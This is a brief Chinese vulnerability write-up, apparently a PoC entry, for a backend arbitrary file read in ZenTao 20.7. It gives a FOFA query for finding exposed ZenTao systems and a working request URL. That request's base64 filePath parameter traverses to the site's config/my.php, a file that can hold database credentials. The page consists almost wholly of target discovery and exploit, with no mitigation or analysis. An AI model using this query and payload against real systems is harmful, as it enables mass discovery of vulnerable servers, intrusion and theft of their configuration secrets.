 # 禅道20.7后台任意文件读取漏洞

禅道20.7后台任意文件读取漏洞，只能读取网站目录下的文件

## fofa

```javascript
app="易软天创-禅道系统"
```

## poc

```javascript
http://192.168.91.1:8017/index.php?m=editor&f=edit&filePath=Li4vLi4vY29uZmlnL215LnBocA==&action=extendOther&isExtends=3
```

![image-20241028155218530](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410281552692.png)
